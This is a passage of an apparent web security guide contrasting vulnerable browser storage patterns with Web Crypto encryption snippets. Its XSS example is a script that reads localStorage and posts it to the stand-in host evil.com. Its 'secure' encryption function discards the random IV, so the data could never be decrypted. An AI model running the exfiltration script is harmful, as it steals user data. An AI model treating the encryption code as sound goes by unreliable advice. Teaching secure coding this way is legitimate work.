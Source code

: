 ### **2. Man-in-the-Middle Attacks** 👥
```javascript
// VULNERABLE: Unencrypted transmission
fetch('/api/user-data', {
    method: 'POST',
    body: JSON.stringify({
        creditCard: '4111-1111-1111-1111'  // 🚨 No encryption!
    })
});
```

### **3. XSS Data Theft** 🎯
```javascript
// VULNERABLE: Stored XSS can access localStorage
<script>
    const stolenData = localStorage.getItem('userData');
    fetch('https://evil.com/steal', {
        method: 'POST',
        body: stolenData
    });
</script>
```

### **4. Session Hijacking** 🎭
```javascript
// VULNERABLE: Weak session management
document.cookie = "sessionId=abc123";  // 🚨 No security flags!
```

## Secure Storage Techniques

### **1. Encryption at Rest** 🔐
```javascript
// ✅ SECURE: Encrypt sensitive data before storage
const crypto = window.crypto.subtle;

async function encryptData(data, key) {
    const encoder = new TextEncoder();
    const dataBuffer = encoder.encode(JSON.stringify(data));
    
    const encryptedData = await crypto.encrypt(
        { name: 'AES-GCM', iv: window.crypto.getRandomValues(new Uint8Array(12)) },
        key,
        dataBuffer
    );
    
    return encryptedData;
}
```

### **2. Secure Key Management** 🔑
```javascript
// ✅ SECURE: Generate and store keys securely
async function generateSecureKey() {
    const key = await crypto.subtle.generateKey(
        { name: 'AES-GCM', length: 256 },
        true,  // extractable
        ['encrypt', 'decrypt']
    );
    return key;
}
```
